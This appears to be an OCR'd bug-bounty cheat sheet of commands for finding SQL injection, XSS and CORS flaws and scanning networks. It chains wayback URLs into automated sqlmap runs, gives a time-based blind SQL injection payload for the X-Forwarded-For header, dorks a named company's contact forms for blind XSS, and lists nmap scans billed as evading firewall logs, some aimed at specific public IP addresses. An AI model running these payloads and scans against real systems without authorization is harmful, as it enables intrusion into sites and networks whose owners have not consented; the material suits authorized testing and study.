 ######## Testing for xss and sqli at the same time >_< ##############

cat subdomains.txt | waybackurls | uro | grep "?" | httpx -silent > param.txt

sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt

cat param.txt | kxss  

Blind SQL Injection :-
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

Blind XSS :-
site:opsgenie.com inurl:"contact" | inurl:"contact-us" | inurl:"contactus" | inurl:"contcat_us" | inurl:"contact_form" | inurl:"contact-form"

Go to xss.report website and create an account to test for blind xss Vulnerbilitites
Hunting For Cors Misconfigration :-
https://github.com/chenjj/CORScanner

pip install corscanner

corscanner -i live_subdomains.txt -v -t 100

https://github.com/Tanmay-N/CORS-Scanner

go install github.com/Tanmay-N/CORS-Scanner@latest

cat CORS-domain.txt | CORS-Scanner

Nmap Scanning :-
#- nmap -sS -p- 192.168.1.4  (-sS) Avoid Firewell && Connection Log.

#- nmap -sS -p- -iL hosts.txt

#- nmap -Pn -sS -A -sV -sC -p 17,80,20,21,22,23,24,25,53,69,80,123,443,1723,4343,8081,8082,8088,53,161,177,3306,8888,27017,27018,139,137,445,8080,8443 -iL liveips.txt -oN scan-result.txt

#- nmap -Pn -A -sV -sC 67.20.129.216 -p 17,80,20,21,22,23,24,25,53,69,80,123,443,1723,4343,8081,8082,8088,53,161,177,3306,8888,27017,27018,139,137,445,8080,8443 -oN scan-result.txt --script=vuln

#- nmap -sT -p- 192.168.1.4    (Full Scan (TCP)).

#- nmap -sT -p- 192.168.1.5 --script=banner (Services Fingerprinting).

#- nmap -sV 192.168.1.4 (Services Fingerprinting).

#- nmap 192.168.1.5 -O   (OS Fingerprinting).

#- nmap 192.168.1.0-255 -sn  (-sn) Live Hosts with me in network.

#- nmap -iL hosts.txt -sn

#- nc -nvz 192.168.1.4 1-65535  (Port Scanning Using nc).

#- nc -vn 34.66.209.2 22        (Services Fingerprinting).

#- netdiscover     (Devices On Network) (Layer2).

#- netdiscover -r 192.168.2.0/24  (Range).

#- netdiscover -p        (Passive).

#- netdiscover -l hosts.txt
